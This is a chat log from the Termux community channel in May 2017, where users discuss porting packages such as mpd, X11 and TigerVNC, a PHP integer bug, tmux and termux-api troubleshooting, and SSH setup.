2017-05-09 05:30:03	Satyam2345	Maybe jio LYF has some cheapest android 5.0/6.0 phone

2017-05-09 05:30:39	gitter1	(cocodevienne) Btw: @fornwall what requirements have to be met for a package to be accepted into the main Termux repo?

2017-05-09 09:07:54	u0_a190	is su only for root

2017-05-09 09:07:58	u0_a190	phones

2017-05-09 09:09:11	fornwall	u0_a190: yes, you need root acccess for to use su

2017-05-09 09:10:01	u0_a190	thanks

2017-05-09 09:11:50	gitter1	(fornwall) @cocodevienne there's no format requirement, it's a mixture of how useful the package is for termux users and how hard it is to build&maintain

2017-05-09 09:17:47	u0_a190	got it

2017-05-09 10:14:12	gitter1	(cocodevienne) Can I send you a package in the next few days and you submit it to the Termux repo? It's an interesting package for penetration testing.

2017-05-09 10:14:16	gitter1	(cocodevienne) @fornwall

2017-05-09 10:20:03	Satyam2345	\o/

2017-05-09 10:20:17	Satyam2345	More pentesting tools

2017-05-09 13:29:43	gitter1	(Auxilus) @fornwall @vishalbiswas I want to install wine32 package ... Can you help me ..

2017-05-09 13:36:03	gitter1	(cocodevienne) Surely you mean win32?

2017-05-09 13:36:37	gitter1	(Auxilus) Nope

2017-05-09 13:36:40	gitter1	(Auxilus) wine32

2017-05-09 13:39:13	gitter1	(cocodevienne) What's the error? Is it something with `gcc could not be found`?

2017-05-09 13:41:47	gitter1	(Auxilus) Nope...it's dependencie for an exploit

2017-05-09 13:42:00	gitter1	(Auxilus) Areally dope one

2017-05-09 13:42:13	gitter1	(Auxilus) The one which NSA uses to spy

2017-05-09 13:46:31	sdrausty	I am trying to `cpan install CGI`; I am getting an undef ERROR

2017-05-09 13:48:59	sdrausty	Can anyone try `cpan install CGI`; Is this a BUG

2017-05-09 13:57:16	sdrausty	I reran `cpan install CGI`; This time it installed. Is anyone else getting inconsistent builds with `cpan`?

2017-05-09 14:16:44	van777	how do i paste inta tmux terminal with a phisical BT keyboard? Ctrl+V, Ctrl+Shift+V, Shift+Ins do not seem to work :S

2017-05-09 14:17:32	van777	into termux* , running tmux..

2017-05-09 14:19:32	van777	long pressing the mouse doesn't offer to paste

2017-05-09 14:49:58	gitter1	(Auxilus) How do I install wine32 ?

2017-05-09 14:50:07	gitter1	(Auxilus) (not wine32 ,it's wine32)

2017-05-09 14:50:10	gitter1	(Auxilus) 🍷

2017-05-09 15:03:22	gitter1	(vishalbiswas) I think there's a pull request open for it. @Auxilus

2017-05-09 15:04:16	gitter1	(Auxilus) I'll Chk

2017-05-09 15:04:16	gitter1	(Auxilus)

2017-05-09 15:06:01	gitter1	(Auxilus) Is package in git ?

2017-05-09 15:06:51	gitter1	(Auxilus) I can't find actual package

2017-05-09 15:07:05	gitter1	(Auxilus) That pull request is closed

2017-05-09 15:07:05	gitter1	(Auxilus)

2017-05-09 15:14:59	gitter1	(Auxilus) @vishalbiswas I found build.sh

2017-05-09 15:15:10	gitter1	(Auxilus) But not sure how to use it to install

2017-05-09 15:40:33	gitter1	(vishalbiswas) @fornwall Should I add TigerVNC server (including xorg-server) to termux? Will you merge it?

2017-05-09 15:41:22	gitter1	(Auxilus) Is it wine or wine32?

2017-05-09 15:41:28	gitter1	(Auxilus) Cz I want wine32

2017-05-09 15:42:41	gitter1	(vishalbiswas) wine32 just means the 32-bit part of wine, which is the standard wine. So, wine=wine32

2017-05-09 15:43:24	gitter1	(Auxilus) Well where can I find that package ?

2017-05-09 15:44:10	gitter1	(vishalbiswas) ask the author of the pull request to provide a built package

2017-05-09 15:44:43	gitter1	(Auxilus) I have build.sh

2017-05-09 15:44:54	gitter1	(Auxilus) But when I exec it nothing happens

2017-05-09 15:45:12	gitter1	(vishalbiswas) read the readme

2017-05-09 15:45:47	gitter1	(Auxilus) There is no readme in PR

2017-05-09 15:45:47	gitter1	(Auxilus)

2017-05-09 17:47:24	frumpylava	would bind be possible?

2017-05-09 18:57:46	live_the_dream	i got mpd working..

2017-05-09 20:04:23	live_the_dream	well music player daemon on aarch64 ...

2017-05-10 01:03:02	live_the_dream	s

2017-05-10 01:03:09	u0_a92	z

2017-05-10 03:06:23	live_the_dream	ok music player daemon is on my repo ...

2017-05-10 03:28:56	u0_a188	Hello, anybody having the device rebooting when trying to change nick in the chat?

2017-05-10 03:39:03	live_the_dream	hmmm

2017-05-10 03:39:28	live_the_dream	probably same issue as device crashing due to python issue?

2017-05-10 07:07:15	rk	Hi

2017-05-10 07:18:55	live_the_dream	hello

2017-05-10 08:58:10	alpha0908	Hi

2017-05-10 08:58:54	alpha0908	Is there people?

2017-05-10 08:59:35	alpha0908	Hellow

2017-05-10 08:59:40	JohnOlinda[m]	Yep.

2017-05-10 09:02:25	live_the_dream	no

2017-05-10 13:59:52	sdrausty	`cpan Net::HTTP` Result: FAIL

2017-05-10 13:59:52	sdrausty	Failed 3/6 test programs. 20/95 subtests failed.

2017-05-10 13:59:52	sdrausty	make: *** [Makefile:885: test_dynamic] Error 18

2017-05-10 16:03:18	gitter1	(Cutuchiqueno) @vishalbiswas how do I find out?

2017-05-10 16:29:04	gitter1	(fornwall) @vishalbiswas nice work with tigervnc - make a pull request!

2017-05-10 16:37:41	gitter1	(fornwall) @vishalbiswas I'm a bit hesitant to start adding graphical X11 programs in the main repo, to avoid having to maintain hundreds of gui apps and different versions of gtk and qt. an option would be to create something like `termux-gui-packages`, a new repo for X11 programs

2017-05-10 17:38:41	live_the_dream	tigervnc?

2017-05-10 17:39:03	live_the_dream	is gitter bot not revealing all?

2017-05-10 17:39:55	fornwall	live_the_dream: it was down some hours today

2017-05-10 17:40:03	live_the_dream	oh

2017-05-10 17:40:24	fornwall	live_the_dream: vishalbiswas have x11 and tigervnc up and running, he posted https://goo.gl/Dkx3So to prove it :)

2017-05-10 17:40:27	live_the_dream	o btw i got media player daemon to work ... it actually plays music on device

2017-05-10 17:40:53	live_the_dream	so ncmpcpp can connect to a sound player on device...

2017-05-10 17:41:36	fornwall	cool! is that using pulseaudio output from mpd?

2017-05-10 17:41:37	live_the_dream	which means its actually more usuable than the terrible ill maintained port that is currently available

2017-05-10 17:41:40	live_the_dream	no

2017-05-10 17:41:44	live_the_dream	openal directly

2017-05-10 17:41:54	fornwall	aha, mpd supports openal?

2017-05-10 17:41:59	live_the_dream	yes

2017-05-10 17:42:09	live_the_dream	i had to undefine ANDROID

2017-05-10 17:42:15	live_the_dream	which is fun

2017-05-10 17:42:37	fornwall	hehe :). does it assume that it's running under a particalur app if ANDROID is defined?

2017-05-10 17:42:46	live_the_dream	no

2017-05-10 17:43:00	live_the_dream	it works as a normal linux app

2017-05-10 17:43:04	live_the_dream	that just uses openal

2017-05-10 17:43:29	live_the_dream	we should probably pack ncmpcpp and mpd so ncmpcpp connects via local socket

2017-05-10 17:43:39	live_the_dream	in the default config

2017-05-10 17:43:56	live_the_dream	then you can add local mp3s to playlist

2017-05-10 17:44:10	fornwall	why did ANDROID need to be undefined?

2017-05-10 17:44:19	live_the_dream	there is a android port

2017-05-10 17:44:23	live_the_dream	that uses java

2017-05-10 17:44:43	live_the_dream	so its constantly fails to compile

2017-05-10 17:45:10	live_the_dream	opensl using java requires termux-app modifications

2017-05-10 17:45:57	live_the_dream	also mpd server uses port 6600 so it needs to be 8600 instead

2017-05-10 17:46:02	live_the_dream	on termux

2017-05-10 17:46:38	live_the_dream	but it doesn't even need to use network

2017-05-10 17:46:49	live_the_dream	since ncmpcpp can connect via local socket

2017-05-10 17:47:39	live_the_dream	and you need local socket connection to add mp3 files that mpd will use

2017-05-10 17:47:44	live_the_dream	just the file names

2017-05-10 17:47:46	live_the_dream	etc

2017-05-10 17:48:22	live_the_dream	mpd has this restriction so open port access anyone can use doesn't have full file access

2017-05-10 17:48:59	live_the_dream	the mpd port currently on playstore doesn't play local mp3s at all since no local socket access

2017-05-10 17:50:10	fornwall	aha. so the "bind_to_address ~/.mpd/socket" in the mpd.conf is what makes it use a local socket?

2017-05-10 17:50:16	live_the_dream	yes

2017-05-10 17:50:23	fornwall	nice

2017-05-10 17:50:52	live_the_dream	i haven't fully done it yet. I reused the mpv scripts for mpd

2017-05-10 17:51:29	fornwall	about the pull request, the "Files changed" tab,

2017-05-10 17:51:31	fornwall	https://github.com/termux/termux-packages/pull/1007/files

2017-05-10 17:51:56	fornwall	seems to indicate that both disabled-packages/mpd and packages/mpd gets added?

2017-05-10 17:52:11	live_the_dream	oh shit i was tired yesterday

2017-05-10 17:52:17	live_the_dream	sorry

2017-05-10 17:52:24	live_the_dream	have had several sleepless nights

2017-05-10 17:52:42	fornwall	no problem, that's what pull requests are for, to find things

2017-05-10 17:52:54	fornwall	sleep problems?

2017-05-10 17:53:00	live_the_dream	yes long story

2017-05-10 17:53:39	fornwall	sorry to hear, hope it gets better soon!

2017-05-10 17:54:46	live_the_dream	the photo stuff i made pull requests for is guys from here https://discuss.pixls.us/t/a-full-android-foss-raw-imageing-pipeline-tutorial/3269

2017-05-10 17:55:19	live_the_dream	so there is a userbase for it

2017-05-10 17:55:32	live_the_dream	not a large one but i ported stuff for them

2017-05-10 17:57:04	fornwall	nice! I'm looking at #982 now

2017-05-10 17:58:15	live_the_dream	i wonder if i could get R or octave to display graphics via vnc with vishals stuff

2017-05-10 17:58:46	fornwall	I guess TERMUX_PKG_HOMEPAGE for babl should be http://gegl.org/babl/, not http://gmic.eu?

2017-05-10 17:58:56	live_the_dream	YEAH

2017-05-10 17:58:59	live_the_dream	sorry again

2017-05-10 17:59:23	fornwall	no problem! do you want to fix it before merging? otherwise I can update it after

2017-05-10 18:01:53	live_the_dream	that would be babl

2017-05-10 18:01:55	live_the_dream	that is wrong

2017-05-10 18:02:40	live_the_dream	yeah

2017-05-10 18:08:32	live_the_dream	rebased mpd commits

2017-05-10 18:10:11	live_the_dream	also could add libsoup and imgflo too

2017-05-10 18:10:32	live_the_dream	but i don't know since it laucnhed a httpd and needs browser connection to owrk

2017-05-10 18:10:57	live_the_dream	its a tad slow on a mobile ph

2017-05-10 18:11:22	morlog	mpd is  oming t0 termux?

2017-05-10 18:11:26	live_the_dream	yes

2017-05-10 18:11:34	morlog	nice

2017-05-10 18:12:02	live_the_dream	no volume control though

2017-05-10 18:12:19	live_the_dream	no mixer plugin for openal

2017-05-10 18:12:23	morlog	hmm

2017-05-10 18:13:02	live_the_dream	so ncmpcpp and mpd

2017-05-10 18:13:13	morlog	cool

2017-05-10 18:15:45	live_the_dream	if mpd is crashing fornwall it might be needed updated openal-soft but i don't know if its needed because i didn't check

2017-05-10 18:15:57	live_the_dream	tired as fuck

2017-05-10 18:19:02	fornwall	I created an issue at openal-soft asking if it's time for a new release

2017-05-10 18:19:04	fornwall	https://github.com/kcat/openal-soft/issues/114

2017-05-10 18:19:26	fornwall	as it seems that there are a lot of updates and fixes since the last stable release january last year

2017-05-10 18:20:39	fornwall	live_the_dream: for babl, does 'export THREAD_LIB="-lc"' do something, or can it be removed as configure.ac is patched?

2017-05-10 18:20:59	live_the_dream	can't remmeber

2017-05-10 18:21:49	fornwall	ok, I've merged it now and see if it can be removed

2017-05-10 18:22:12	fornwall	you should get some sleep, if possible

2017-05-10 18:33:59	van777	hi. Where is 'tmux' config file in termux file system?

2017-05-10 18:34:08	live_the_dream	~/.tmux.conf

2017-05-10 18:34:14	van777	hm

2017-05-10 18:34:28	live_the_dream	if it doesn't exist

2017-05-10 18:34:31	live_the_dream	create it

2017-05-10 18:34:33	van777	ah

2017-05-10 18:35:29	van777	but i wanted to  to read the key bindings there. i'm new to tmux,

2017-05-10 18:35:45	van777	and the file doesnt exist..

2017-05-10 18:36:29	fornwall	van777: try https://tmuxcheatsheet.com/ perhaps

2017-05-10 18:37:57	van777	fornwall: thanks ;) Using screen on the server and tmux on termux.. Gotta learn..

2017-05-10 19:08:18	live_the_dream	had a look at gmic yet fornwall?

2017-05-10 19:09:59	live_the_dream	50000 line head file

2017-05-10 19:18:46	live_the_dream	i suppose a termux-api command to change volume ?

2017-05-10 19:18:49	live_the_dream	would be nice

2017-05-10 19:19:18	fornwall	haven't looked at gmic yet, a 50000 line header file sounds.. interesting :)

2017-05-10 19:20:02	live_the_dream	takes a while to compile

2017-05-10 19:20:06	live_the_dream	has to be single thread

2017-05-10 19:21:11	fornwall	a termux-api command to change volume seems like a good idea!

2017-05-10 19:21:56	fornwall	should it take a percentage of max between 0 and 100?

2017-05-10 19:22:12	fornwall	perhaps a way to adjust up or down would be useful sometimes

2017-05-10 19:23:00	live_the_dream	should go to a max volume of 11 ;)

2017-05-10 19:23:38	live_the_dream	percentage sounds good

2017-05-10 19:23:52	fornwall	:)

2017-05-10 19:24:56	X_Tu	My termux-api suddenly cant use. Who can help me?

2017-05-10 19:34:05	live_the_dream	a termux-api command to turn tv on would be interesting

2017-05-10 19:34:14	live_the_dream	since i actually have termux running on tv

2017-05-10 19:34:28	X_Tu	👀

2017-05-10 19:51:59	live_the_dream	whats the issue X_Tu ?

2017-05-10 19:53:14	X_Tu	My api command cant be executed.

2017-05-10 19:54:02	live_the_dream	there is no termux-api command in path

2017-05-10 19:54:28	live_the_dream	there are termux-* commands that use termux-api

2017-05-10 19:54:34	X_Tu	There is. I install both the apk and termux command.

2017-05-10 19:55:02	live_the_dream	it is in libexec

2017-05-10 19:55:25	X_Tu	They are all here but I cant execute them.

2017-05-10 19:56:05	live_the_dream	you need the termux-api apk as well?

2017-05-10 19:56:37	live_the_dream	and have the permissions on for termux-api app

2017-05-10 19:56:45	X_Tu	I installed it too. And try to reinstall it serveral times.

2017-05-10 19:57:06	X_Tu	I dont know if I have permissions....I can use it at passed

2017-05-10 20:00:37	live_the_dream	i android settings

2017-05-10 20:00:39	live_the_dream	in

2017-05-10 20:00:50	live_the_dream	the apps section

2017-05-10 20:01:15	live_the_dream	open termux-api see permissions

2017-05-10 20:02:44	X_Tu	I give it all permissions that I could give. But i can't still use termux-api😒

2017-05-10 20:17:40	live_the_dream	someobe got cp/m working on termux haha

2017-05-10 20:23:20	live_the_dream	i don't know X_Tu ..

2017-05-10 20:24:52	gitter1	(mklein994) Wow! Thanks live_the_dream for mpd and ncmpcpp! Both work great. I'll see if I can get `--enable-visualizer` working. 'Cause ya know, why not :P

2017-05-10 20:25:28	X_Tu	live_the_dream: well, but still than you.

2017-05-10 20:30:19	gitter1	(mklein994) X_Tu which termux-api command were you trying to run?

2017-05-10 20:33:25	van777	i'm happy listening to my online radio playlist with mpv in a tmux window.. As i understood mpd is to control music player on another device?

2017-05-10 20:33:32	gitter1	(mklein994) X_Tu: does `termux-battery-status` work?

2017-05-10 20:33:59	X_Tu	No, all apis cant work.

2017-05-10 20:34:03	live_the_dream	mpd works on local device

2017-05-10 20:34:57	live_the_dream	ncmpcpp is a client for mpd

2017-05-10 20:35:28	live_the_dream	the interface ncmpcpp is interesting

2017-05-10 20:36:01	live_the_dream	it had play lists lyrics and other stuff

2017-05-10 20:36:20	gitter1	(mklein994) van777: MPD separates the brains (server) from the presentation (client). `mpd` runs in the background, and a client like `mpc` or a fancier one like `ncmpcpp` control what plays. See https://www.musicpd.org.

2017-05-10 20:36:55	live_the_dream	so fancy pants console interface

2017-05-10 20:37:15	live_the_dream	also running it on my android tv

2017-05-10 20:37:36	live_the_dream	mpd also has terrible android support

2017-05-10 20:37:55	live_the_dream	most functions don't work

2017-05-10 20:38:33	gitter1	(mklein994) live_the_dream: how have you organized your code? Did you fork termux-packages?

2017-05-10 20:38:45	gitter1	(mklein994) You mean the app?

2017-05-10 20:38:50	live_the_dream	yeah

2017-05-10 20:39:00	gitter1	(mklein994) I've tried it. It's pretty bad.

2017-05-10 20:39:13	gitter1	(mklein994) Where's your repo located?

2017-05-10 20:39:21	gitter1	(mklein994) The one that holds `build.sh` stuff.

2017-05-10 20:39:42	van777	its a pain to install that mpd, i suppose?  Now i'm ok with cli mpv, just feeding it my radio urls

2017-05-10 20:39:49	live_the_dream	http://github.com/its-pointless/gcc_termux

2017-05-10 20:39:56	X_Tu	Do you know proot in termux?

2017-05-10 20:40:07	live_the_dream	the pull request

2017-05-10 20:40:17	gitter1	(mklein994) van777: now that mpd is a package, not anymore. ;)

2017-05-10 20:40:21	live_the_dream	on termux-packages is me

2017-05-10 20:40:44	live_the_dream	but iv got some fortran stuff as well

2017-05-10 20:41:03	gitter1	(mklein994) So if I wanted to see the build script for mpd, where would I look?

2017-05-10 20:41:04	live_the_dream	R octave scipy etc

2017-05-10 20:41:48	live_the_dream	https://github.com/termux/termux-packages/pull/1007

2017-05-10 20:42:16	live_the_dream	or its-pointless/termux-packages and change the branch

2017-05-10 20:42:24	gitter1	(mklein994) cool thanks!

2017-05-10 20:47:07	live_the_dream	be warned i was messing about on not a lot of sleep so may have unnecessary stuff

2017-05-10 21:07:09	rods-tab3	https://www.reddit.com/r/linux/comments/66fh4f/what_do_you_use_termux_on_android_for/

2017-05-10 21:07:29	rods-tab3	what program is that?

2017-05-10 21:08:31	live_the_dream	htop you mean?

2017-05-10 21:09:45	rods-tab3	the one at top of the reddit

2017-05-10 21:10:55	live_the_dream	htop is a program...

2017-05-10 21:15:08	rods-tab3	thanks, got it

2017-05-10 22:37:09	rods-tab3	no color in htop ?

2017-05-10 22:40:30	abff	mine has colour

2017-05-10 22:45:54	gitter1	(mklein994) rods-tab3: try `rm -rf ~/.config/htop` and try again.

2017-05-10 22:52:05	gitter1	(mklein994) fornwall: I'm interested to know if the recently-added lua support (i.e. `has('if_lua')`) to neovim works in termux. No rush; I'm just curious. The python plugin support has had some trouble, so hopefully this works.

2017-05-10 23:41:27	rods-tab3	htop nojoy  colours nor colors  ??

2017-05-11 00:13:30	gitter1	(vishalbiswas) live_the_dream: I'll push X11 and TigerVNC to my repo today. You can tinker with it all you want, but, I must warn you that its a huge number of packages.

2017-05-11 00:14:05	live_the_dream	i know its why i have been avoiding X11 all this time

2017-05-11 00:14:44	live_the_dream	anyway im just fixing linker bugs in gegl

2017-05-11 00:14:56	live_the_dream	the plugins aren't working quite right

2017-05-11 00:30:34	live_the_dream	k done

2017-05-11 00:51:03	gitter1	(vishalbiswas) live_the_dream: https://github.com/vishalbiswas/termux-packages/tree/x11 have a go.

2017-05-11 00:51:03	gitter1	(vishalbiswas) I'm currently trying to get xterm working but it fails to spawn a tty. Its a mess of `#ifdef`s

2017-05-11 00:51:38	gitter1	(vishalbiswas) don't try to checkout a particular commit. I haven't added them in any particular order

2017-05-11 05:55:33	frumpylava	That php negative integer bug is annoying.

2017-05-11 05:58:56	frumpylava	I tried running php in a chrooted ubuntu and it works there.

2017-05-11 06:05:52	fornwall	frumpylava: yes, that is an annoying issue. do you have a chroot installation of a linux distribution for aarch64 available?

2017-05-11 06:06:19	fornwall	it would be good to know if this is a general problem for php on 64-bit arm, or particular to the termux build

2017-05-11 06:06:58	frumpylava	Well, I have this: https://github.com/Neo-Oli/termux-ubuntu

2017-05-11 06:07:10	frumpylava	It sets up a chrooted ubuntu (with proot) on termux

2017-05-11 06:08:07	frumpylava	and with this it seems to work.

2017-05-11 06:08:39	frumpylava	php -r "var_dump(-1);"

2017-05-11 06:08:44	frumpylava	int(-1)

2017-05-11 06:09:04	frumpylava	as oposed to float(-1) in normal termux

2017-05-11 06:09:44	fornwall	ok, good to know! so it's not a general php on 64-bit arm issue

2017-05-11 06:10:25	frumpylava	fornwall: or at least something that the debian devs patched.

2017-05-11 06:10:39	fornwall	ah, right! or version specific - what does 'php --version' say?

2017-05-11 06:11:48	frumpylava	PHP 7.0.15-1ubuntu4 (cli) (built: Feb 28 2017 21:33:59) ( NTS )

2017-05-11 06:12:24	frumpylava	as far as I can tell 7.0.15 has not yet been officialy released on http://php.net

2017-05-11 06:12:39	frumpylava	ah sorry I was thinking 7.1.5

2017-05-11 06:14:42	frumpylava	So we're already on 7.1 and debian is still on 7.0

2017-05-11 06:16:07	fornwall	hm, debian seems to have php 7.1 available in sid

2017-05-11 06:16:08	fornwall	https://packages.debian.org/sid/php7.1

2017-05-11 06:21:42	frumpylava	I just upgraded php to the latest stable in ubuntu. The version is now: PHP 7.0.18-0ubuntu0.17.04.1 (cli) (built: Apr 26 2017 23:59:48) ( NTS )

2017-05-11 06:44:05	frumpylava	hm.. I can't get php 7.1 to work on chrooted ubuntu, because it is too unstable. I keep breaking apt.

2017-05-11 09:07:16	live_the_dream	that is why rooted linux chroots are better

2017-05-11 09:08:29	live_the_dream	also fornwall i was getting bugs with gegl on 5.1 due to link errors so my pull request fixes that ...

2017-05-11 09:48:05	frumpylava	fornwall: I compiled php 7.0.19 for Termux and it also doesn't work.

2017-05-11 10:04:21	frumpylava	The unreleased version 7.1.5 also doesn't fix the issue

2017-05-11 14:54:20	Atomic_QlKY6	what's you favorite command in termux? ive been doing well with the fish shell and alias'

2017-05-11 15:04:01	frumpylava	Atomic_QlKY6: I like the profanity messenger

2017-05-11 15:05:51	Atomic_QlKY62	thank man

2017-05-11 15:06:12	Atomic_QlKY62	im goin 2 chk tht out.

2017-05-11 15:06:38	Atomic_QlKY62	do u use it for irc or skype like call?

2017-05-11 15:10:27	frumpylava	Atomic_QlKY62: No, you use it for Jabber/xmpp. It's a really good communications protocol. Thankfully all of my friends use it as well.

2017-05-11 15:10:39	frumpylava	If you want irc, try weechat.

2017-05-11 15:26:14	frumpylava	fornwall: It's interessting that gettype(0-1); gives integer while gettype(-1-0) gives double. Also I've been searching up and down the php bug reports, but couldn't find anything remotely similar.

2017-05-11 17:51:04	live_the_dream	try compiling php using gcc instead of clang s

2017-05-11 17:52:01	live_the_dream	i think that fixes it... unless i haven't had coffee yet and am halucinating

2017-05-11 17:53:36	live_the_dream	seriously took me 15 minutes to solve this bug?

2017-05-11 18:18:53	live_the_dream	fornwall: i fixed php bug in 15 minutes

2017-05-11 22:07:51	live_the_dream	also software mixer does work on mpd

2017-05-11 22:07:58	live_the_dream	i think its good to be added

2017-05-12 00:23:59	frumpylava	live_the_dream: Isn't your solution to everything to just compile it with gcc ? ;)

2017-05-12 00:24:07	live_the_dream	yeah

2017-05-12 00:24:31	live_the_dream	in future you should probably try it

2017-05-12 00:25:04	live_the_dream	btw i got mpd working so we have a fancy new mp3 player

2017-05-12 00:25:10	live_the_dream	with play lists

2017-05-12 00:25:29	live_the_dream	i think its possible to get opensl as well as openal working too

2017-05-12 00:28:14	frumpylava	I'm hesitant of using clang to build packages. I'm dreaming of a future where Termux can compile all it's own packages. It's an important step for every distribution to make.

2017-05-12 00:28:51	live_the_dream	i see us as more a cygwin without the shitty bits

2017-05-12 00:29:42	live_the_dream	200~Toybox's main goal is to make Android self-hosting by improving Android's command line utilities so it can build an installable Android Open Source Project image entirely from source under a stock Android system.

2017-05-12 00:29:48	live_the_dream	hmm

2017-05-12 00:30:24	frumpylava	live_the_dream: Can I run mpd without needing an external app yet?

2017-05-12 00:30:31	live_the_dream	yes

2017-05-12 00:30:34	live_the_dream	local deice

2017-05-12 00:30:38	live_the_dream	no pulseaudio

2017-05-12 00:30:44	live_the_dream	uses openal straight to device

2017-05-12 00:30:47	live_the_dream	ncmpcpp also works

2017-05-12 00:30:56	live_the_dream	via local socket so you can local mp3s

2017-05-12 00:31:07	live_the_dream	add

2017-05-12 00:31:20	live_the_dream	to palylists and stuff and do random and get lyrics and last.fm stuff

2017-05-12 00:31:30	live_the_dream	all from the console

2017-05-12 00:31:45	live_the_dream	its on pull requests

2017-05-12 00:32:15	frumpylava	cool.

2017-05-12 00:34:19	frumpylava	an interface like alsamixer would be cool. With an android API binding to control androids different streams.

2017-05-12 00:34:41	live_the_dream	the mixer in ncmpcpp is working no

2017-05-12 00:34:42	live_the_dream	now

2017-05-12 00:37:22	frumpylava	cool. looking forward to trying it out.

2017-05-12 00:37:35	frumpylava	Do you have a *.deb in your repo?

2017-05-12 00:39:55	live_the_dream	yes give

2017-05-12 00:40:11	live_the_dream	just in ~/.mpd.conf change mixer from hardware to software

2017-05-12 00:40:16	live_the_dream	should work

2017-05-12 00:40:24	live_the_dream	ncmpcpp is the client for it you want

2017-05-12 00:50:19	frumpylava	live_the_dream: cool. I'll try it out later. Altough I'm now so used to beets.io I may never switch. I'm hoping I'll be able to use both, as in use n*****pp with `beet play`.

2017-05-12 00:58:43	frumpylava	With php working I hope I'll finally get Typo3 working.

2017-05-12 01:03:54	frumpylava	live_the_dream: Will you make a PR for your php fix?

2017-05-12 01:04:09	live_the_dream	its one line TERMUX_PKG_CLANG=no

2017-05-12 01:04:17	live_the_dream	do i have to ?

2017-05-12 01:11:02	frumpylava	live_the_dream: aren't you motivvated in getting your squares a darker shade of gren? ;)

2017-05-12 01:12:42	live_the_dream	not really

2017-05-12 01:12:50	live_the_dream	i don't have my actual name associated with this

2017-05-12 01:17:03	gitter1	(n1had5_twitter) Guys, I know this is kinda a weird questio but, What's the most basic/simple irc client avaliable in Termux? Weechat is kinda too advanced and i just started looking into irc

2017-05-12 02:00:59	rods-tab3	irssi -- afaik only other irc offered by termux

2017-05-12 02:02:57	live_the_dream	hmm now have opensles as well as openal sound output for mpd

2017-05-12 02:08:46	live_the_dream	no

2017-05-12 02:08:52	live_the_dream	not working...

2017-05-12 02:26:18	gitter1	(n1had5_twitter) is irssi simpler than weechat?

2017-05-12 02:28:49	gitter1	(n1had5_twitter) nevermind ill try both ans find out myself

2017-05-12 02:28:55	gitter1	(n1had5_twitter) thanks tho

2017-05-12 02:34:14	frumpylava	@n1had5_twitter Irssi is much older than weechat and IMO much less user friendly. I'd still suggest using weechat. It was my first irc client as well (also on termux).

2017-05-12 03:42:01	frumpylava	Does gnupg2 also come with a curl helper thing? I can't seem to import from a keyserver. I always get "gpg: keyserver receive failed: No such file or directory"

2017-05-12 03:43:00	live_the_dream	no its seperate

2017-05-12 03:43:19	live_the_dream	?

2017-05-12 03:43:27	live_the_dream	i couod be wrong

2017-05-12 03:44:07	frumpylava	well gnupg-curl doesn't seem to work with gnupg2, at least it doesn't fix my problem

2017-05-12 03:51:41	pvpizza	sorry,has anyone had luck compiling and running basic Java programs?

2017-05-12 03:52:16	pvpizza	i know that Java and Javac aren't available

2017-05-12 07:48:38	Regenaxer	Hi all!

2017-05-12 07:48:47	Regenaxer	Has anyone noticed strange screen updates when using Tmux insite Termux?

2017-05-12 07:48:47	Regenaxer	I can have it all the time, eg. with 'mutt'

2017-05-12 07:48:47	Regenaxer	I made a short video https://software-lab.de/Termux-Tmux.mp4

2017-05-12 07:49:15	Regenaxer	Is this the fault of Termux, or of Tmux?

2017-05-12 07:49:41	Regenaxer	It happens not only in 'mutt', also in 'vim' or other utils

2017-05-12 07:55:05	Regenaxer	In Tmux under Debian I never had such behavior though

2017-05-12 08:46:11	live_the1	hmmm try screen

2017-05-12 08:46:31	live_the1	is the tmux on the sev4r or on termux

2017-05-12 08:55:07	frumpylava	Regenaxer: I've had weird screen updates like this in mutt and neovim and other tui applications. But I've had it happen over SSH to termux as well, so it can't be a problem of the Terminal Emulator.

2017-05-12 09:12:23	live_the1	l

2017-05-12 09:12:28	live_the1	l

2017-05-12 09:36:45	Regenaxer	All runs on Termux in this case

2017-05-12 09:37:27	Regenaxer	frumpylava, I see, so you suspect it is mutt's fault

2017-05-12 09:41:28	Regenaxer	I can also reproduce it in tmux running on a remote machine

2017-05-12 09:41:51	Regenaxer	ie Termux -> ssh -> tmux -> mutt

2017-05-12 09:43:21	Regenaxer	can't reproduce with vim, so it is indeed mutt

2017-05-12 09:43:40	Regenaxer	But mutt stand-alone in an xterm doesn't show it

2017-05-12 14:41:49	gitter1	(vishalbiswas) [](https://files.gitter.im/termux/termux/ggNC/image.png)

2017-05-12 14:41:51	gitter1	(vishalbiswas) got `xterm` working, too

2017-05-12 16:23:19	Skyfaller	hey folks, is there a way to change the hosts file in termux? Like could I create one in the custom etc directory?

2017-05-12 16:24:28	Skyfaller	I just don't want to have to type out the IP addresses for each of my servers whenever I ssh to them

2017-05-12 16:27:44	Skyfaller	also I'm pretty sure I added my rsa public key to authorized_keys on one host, but I'm still being asked for my password when I ssh in

2017-05-12 16:34:25	Skyfaller	I tried ssha but it doesn't appear as indicated in https://termux.com/ssh.html but it didn't seem to add my key

2017-05-12 16:35:07	Skyfaller	erm, sorry for the word salad there, I meant I tried to use ssha as indicated but it didn't work

2017-05-12 16:58:28	van777	Skyfaller: I've just made myself 2 bash scripts for my 2 servers to connect to. and I've renamed each id_rsa to key1.txt and keys. txt. Here is the script example:   ssh  admin@`cat ~/.ssh/ip.txt` -i ~/.ssh/key1.txt

2017-05-12 16:59:18	van777	key2.txt *

2017-05-12 17:15:28	live_the_dream	i have a server on a dyn ip but it runs syncthing and i also have rooted ph so i can change it

2017-05-12 17:15:41	live_the_dream	the hosts file that is

2017-05-12 17:21:20	van777	live_the_dream: is termux hosts file different of android's one? Adaway is the first app I install when reinstalling Android. It updates the hosts file..

2017-05-12 17:23:46	live_the_dream	no

2017-05-12 17:24:16	live_the_dream	but you caan use the same hosts file adaway does

2017-05-12 18:06:55	Skyfaller	@van777 thanks for the tip... now how do I run a bash script?

2017-05-12 18:07:21	Skyfaller	 I created a bash script called "caprice" and put it in my home directory, and tried "./caprice" but it says Permission denied.

2017-05-12 18:07:28	Skyfaller	Do I have to be root to run bash scripts???

2017-05-12 18:07:36	van777	no

2017-05-12 18:08:10	van777	bash script.sh

2017-05-12 18:08:16	Skyfaller	oh :)

2017-05-12 18:10:23	van777	Skyfaller: Watch some YouTube video tutorials on bash... I like "metalx1000" YouTube channel.

2017-05-12 18:10:55	Skyfaller	van777 thank you so much! I got my script working

2017-05-12 18:11:02	van777	=)

2017-05-12 18:19:59	van777	I've been advised a software keyboard for Termux, getting used to it now. Seems great. It has Ctrl, Up keys functioning better than on hacker's keyboard.. It's MessagEase keyboard

2017-05-12 20:11:12	sdrausty	AAWAY /

2017-05-12 22:40:30	John[Lisbeth]	How do I apt-get install build essential for arm?

